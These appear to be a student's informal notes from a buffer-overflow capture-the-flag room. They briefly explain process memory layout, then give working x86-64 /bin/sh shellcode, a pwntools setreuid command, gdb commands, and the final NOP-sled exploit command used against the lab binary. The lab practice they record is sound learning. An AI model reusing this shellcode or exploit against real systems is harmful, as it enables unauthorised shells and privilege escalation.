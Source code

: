 ## Buffer overflow

**Process Layout -**  
Each program is ran as a process. And processor switched between multiple processes sooooo quickly that it looks that they are running at the same time. And switching is called context swtich. The OS keep track of all the information in a process because it may need different info to run. The memory is organised sequentially and has the following layout.   
![](layout.png)

+ Stack - It contains the information required to run the program. It includes current program counter, saved registers and more info. The section next to stack is unused memory for when the stack grows.  
+ Shared library region - Used to dynamically link libraries used by the program.
+ Heap - It increases and decreases dynamically as the program dynamically assigns memory. The section above it is empty because it can be used when heap grows.
+ Code/Data - Stores the program code and the initialised variables. 

```
set exec-wrapper env -u LINES -u COLUMNS
```
The following shellcode opens up a whole basic shell
```
\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05
```
GDB is OP  

Some important commands - 
Here's another shell - 
```
\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05'
```
To generate a payload, you can use pwntools. LOOK INTO THAT AS WELL.
Used this for this room
```
pwn shellcraft -f d amd64.linux.setreuid 1002
```

NOP - \x90

To check te register inside gdb -
```
x/100x $rsp-200
```
The final command which worked for the final file - 
```
./buffer-overflow-2 $(python -c "print '\x90'*86+'\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*23 + '\x68\xe2\xff\xff\xff\x7f'")
```

Need to practice a lot more. Barely got a gist of the whole thing.